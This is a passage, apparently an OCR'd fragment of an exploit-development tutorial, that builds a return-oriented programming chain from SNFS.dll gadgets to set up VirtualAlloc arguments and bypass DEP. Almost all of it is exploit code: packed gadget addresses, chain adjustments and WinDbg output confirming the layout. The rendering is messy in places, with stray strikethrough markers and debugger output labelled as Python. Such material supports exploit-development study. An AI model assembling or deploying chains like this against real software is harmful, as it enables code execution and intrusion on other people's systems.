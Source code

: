 ```python
#restore eax from ebp
rop += pack("<L", (0x10019c61)) # ROPS\SNFS.dll.txt:14698:0x10019c61: push ebp ; add edx, dword [eax] ; pop eax ; ret  

#readjust the eax value to align
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;

rop += pack("<L", (0x1001526c)) # mov dword [eax], ecx ; ret  ;
```

We make sure that everything worked correctly and aligns as it should.

```python
0:006> dds eax -c L5
018be2f0  100252e0 SNFS!_imp__VirtualAlloc
018be2f4  018be434
018be2f8  018be434
018be2fc  00000001
018be300  00000000
```

For the above used the `NEG` bypass. We can attempt to utilise `XOR EAX, EAX` and `INC EAX` instead. We also note that some of our previous gadgets has become redudent and we remove them to cleanup the ROP chain. The below are removed.

```python
# write eax into location pointed by ESI
rop += pack("<L", (0x1001bfe5)) # NFS.dll.txt:9702:0x1001bfe5: mov dword [esi], eax ; mov dword [esi+0x08], eax ; mov dword [esi+0x04], eax ; pop esi ; ret  ;
rop += pack("<L", (0x42424242)) # pop esi

~~#restore eax to the correct value from ebp
rop += pack("<L", (0x10019c61)) # ROPS\SNFS.dll.txt:14698:0x10019c61: push ebp ; add edx, dword [eax] ; pop eax ; ret  ;  (1 found)

#####PATCHING ARGUMENTS
### align EAX with lpaddress
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;~~  

### dwsize
rop += pack("<L", (0x10014429)) # pop eax ; ret  ;
rop += pack("<L", (0xffffffff)) # -1 value that is negated
```
